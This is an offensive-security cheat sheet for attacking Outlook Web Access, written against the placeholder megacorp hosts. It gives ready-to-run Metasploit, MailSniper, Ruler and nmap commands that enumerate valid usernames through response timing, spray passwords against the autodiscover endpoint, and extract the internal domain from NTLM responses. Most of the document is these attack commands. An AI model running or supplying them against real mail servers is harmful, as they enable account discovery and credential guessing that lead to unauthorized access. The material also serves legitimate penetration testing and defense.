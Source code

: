 # OWA

## Enumerate Users

* [https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/)
* [https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen](https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen)

| Authentication Request | Kerberos Process | Response Time |
| :--- | :--- | :--- |
| Non-existing realm | KDC searches for realm | 2-3 seconds |
| Realm exists but username does not exist | Pre-authentication ticket created to verify username | 5-60 seconds |
| Realm and username exists | Pre-authentication ticket created to verify password | &lt; 2 seconds |

> Responses in different environments may have different response times but the pattern in the timing response behavior still exist. \([ref](http://h.foofus.net/?p=784)\)

### MSF

```text
msf > use auxiliary/scanner/http/owa_login
msf > set RHOST mx.megacorp.local
msf > set USER_FILE owa-users.txt
msf > set PASSWORD dummyPassword
msf > set THREADS 15
msf > run
```

### MailSniper

```text
PS > Invoke-UsernameHarvestOWA -ExchHostname mx.megacorp.com -Domain MEGACORP -UserList .\owa-users.txt -Threads 25 -OutFile owa-valid-users.txt
```

## Password Spray

### Ruler

* [https://github.com/sensepost/ruler/wiki/Brute-Force\#brute-force-for-credentials](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials)

Autodiscover URL implicit:

```text
$ ./ruler -k -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-blood.out
```

Autodiscover URL explicit:

```text
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-all.out
```

Notes:

* In users.txt there's only "username" on a line, not "DOMAIN\username".
* Errors like `ERROR: 04:27:43 brute.go:193: An error occured in connection - Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: net/http: request canceled` do **not** affect the current password probe.

## Parse NTLM

* [https://github.com/nyxgeek/ntlmscan](https://github.com/nyxgeek/ntlmscan)
* [https://gist.github.com/aseering/829a2270b72345a1dc42](https://gist.github.com/aseering/829a2270b72345a1dc42)

### Nmap

```text
$ sudo nmap -sV --script http-ntlm-info --script-args http-ntlm-info.root=/ews/ -p443 mx.megacorp.com
```

### MSF

```text
msf > use auxiliary/scanner/http/owa_login
msf > set AUTH_TIME false
msf > set RHOST mx.megacorp.local
msf > set USERNAME dummyUser
msf > set PASSWORD dummyPassword
msf > run
```

### MailSniper

```text
PS > Invoke-DomainHarvestOWA -ExchHostname mx.megacorp.com
```

### get\_ad\_domain.zip

```text
$ python get_ad_domain.zip -m owa mx.megacorp.com
```

